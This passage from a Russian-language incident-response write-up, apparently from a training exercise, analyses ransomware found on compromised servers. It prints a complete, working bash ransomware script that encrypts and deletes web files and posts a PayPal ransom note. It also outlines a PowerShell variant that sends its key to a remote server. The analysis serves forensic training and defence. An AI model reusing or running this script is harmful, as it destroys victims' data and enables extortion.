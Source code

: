 ```bash
#!/bin/bash

iv=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 32`
pass=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 10`
dirwalk=/var/www/html
files=`find $dirwalk -maxdepth 1 -type f | grep -P ".php$|FLAG.txt$"`
for f in $files
do
    outfile=$f.encr
    openssl enc -aes-256-cbc -a -salt -in $f -out $outfile -pass pass:$pass -iv $iv
    rm $f
done
  echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." | wall
  echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." > /etc/motd

exit 0
```



Получаем некоторые данные о злоумышленнике:
- IP: 10.39.200.50
- Email: b.harrington@gmail.com (также PayPal)


### Шифровальщик в АСУ ТП

На сервере `10.39.239.6` был обнаружен файл `C:\Ransom.ps1` (часть содержимого приведена скриншотами ниже). Это скрипт-шифровальщик.

![](https://i.imgur.com/tzXUy9n.png)

![](https://i.imgur.com/Qcs8piO.png)

Алгоритм работы:
1) Генерируется ключ AES;
2) ключ отправляется на указанный в аргументах запуска скрипта сервер HTTP GET-запросом;
3) с того же сервера скачивается и устанавливается фон рабочего стола;
4) отключаются некоторые сервисы Windows;
5) шифруются файлы в `C:\Share`.

Результат работы:

![](https://i.imgur.com/AM2ueHw.png)
![](https://i.imgur.com/9GoDYKg.png)


Нужно установить, с каким сервером взаимодействовал скрипт. В системных журналах находим команду скачивания и запуска скрипта, а также параметры шифрования.

![](https://i.imgur.com/9ioWBke.png)
